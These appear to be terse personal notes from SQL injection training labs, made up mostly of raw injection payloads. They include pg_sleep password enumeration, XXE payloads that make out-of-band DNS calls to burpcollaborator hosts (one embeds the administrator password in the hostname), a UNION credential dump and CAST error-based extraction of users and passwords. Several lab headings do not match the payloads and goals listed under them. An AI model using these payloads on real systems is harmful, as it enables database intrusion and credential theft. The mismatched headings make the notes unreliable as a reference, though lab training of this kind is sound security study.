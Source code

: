 4) Enumerate the administrator password
' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--

### lab_15. Blind SQL injection with time delays and information retrieval
Vulnerable parameter - Tracking cookie

End Goal - Exploit SQLi and cause a DNS lookup

Analysis:
burpcollaborator

' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://cgwihkkm49dt3sgk9lufyyb6mxsngc.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--


### lab_16. Blind SQL injection with out-of-band interaction
Vulnerable parameter - tracking cookie

End Goals:
1) Exploit SQLi to output the password of the administrator user
2) Login as the administrator user

Analysis:
burpcollaborator

' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.akyjt827n6zbq7z8zvtfg6bft6zwnl.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)-- 

### lab_17. Blind SQL injection with out-of-band data exfiltration
End Goal: Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.

Analysis:
1 UNION SELECT username || '~'  || password  FROM users


### lab_18. SQL injection with filter bypass via XML encoding
End Goal: Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.

Analysis:
select trackingId from trackingIdTable where trackingId='pFNjoVuG3fnTFJ3a''

SELECT * FROM tracking WHERE id = 'pFNjoVuG3fnTFJ3a'--'. Expected  char
CAST()

pFNjoVuG3fnTFJ3a' AND CAST((SELECT 1) as int)--
' AND 1=CAST((SELECT username from users LIMIT 1) as int)--
' AND 1=CAST((SELECT password from users LIMIT 1) as int)--

